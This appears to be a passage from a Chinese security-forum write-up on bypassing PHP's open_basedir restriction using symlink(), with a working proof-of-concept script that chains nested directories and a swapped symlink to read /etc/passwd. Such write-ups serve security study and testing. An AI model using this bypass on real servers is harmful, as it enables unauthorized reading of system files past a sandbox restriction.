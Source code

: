 利用symlink绕过
-----------

`symlink()`函数创建一个从指定名称连接的现存目标文件开始的符号连接。

```php
symlink(string $target, string $link): bool
```

symlink()对于已有的 target 建立一个名为 link 的符号连接。  
而target一般情况下受限于open\_basedir。  
官方的domo:

```php
<?php
$target = 'uploads.php';
$link = 'uploads';
symlink($target, $link);

echo readlink($link);
# 将会输出'uploads.php'这个字符串
?>
```

如果将要读取`/etc/passwd`poc如下

```php
<?php
mkdir("A");
chdir("A");
mkdir("B");
chdir("B");
mkdir("C");
chdir("C");
mkdir("D");
chdir("D");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
symlink("A/B/C/D","SD");
symlink("SD/../../../../etc/passwd","POC");
unlink("SD");
mkdir("SD");
?>
```

访问web后,将会生成名为POC的文件  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ab3a53449c13b418c80c4ebc23d83b1ce5045756.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ab3a53449c13b418c80c4ebc23d83b1ce5045756.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4bd57c3eea42aa9f2f89541d2b973e29b1d075f5.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4bd57c3eea42aa9f2f89541d2b973e29b1d075f5.png)
